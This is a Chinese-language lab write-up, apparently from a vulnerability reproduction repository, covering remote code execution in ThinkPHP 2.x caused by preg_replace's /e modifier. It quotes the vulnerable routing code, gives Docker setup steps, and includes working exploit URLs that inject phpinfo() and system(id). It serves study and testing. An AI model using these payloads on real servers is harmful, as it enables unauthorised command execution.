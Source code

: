 # ThinkPHP 2.x 任意代码执行漏洞

## 漏洞描述

ThinkPHP 2.x 版本中，使用 `preg_replace` 的 `/e` 模式匹配路由：

```php
$res = preg_replace('@(\w+)'.$depr.'([^'.$depr.'\/]+)@e', '$var[\'\\1\']="\\2";', implode($depr,$paths));
```

导致用户的输入参数被插入双引号中执行，造成任意代码执行漏洞。

ThinkPHP 3.0 版本因为 Lite 模式下没有修复该漏洞，也存在这个漏洞。

## 环境搭建

执行如下命令启动 ThinkPHP 2.1 的 Demo 应用：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/Index/Index` 即可查看到默认页面。

## 漏洞复现

直接访问 `http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D` 即可执行 `phpinfo()`：

![image-20220302144931898](images/202203021449975.png)

执行系统命令：

```
http://your-ip:8080/index.php?s=/index/index/name/$%7Bsystem(id)%7D
```

![image-20220302145029395](images/202203021450448.png)
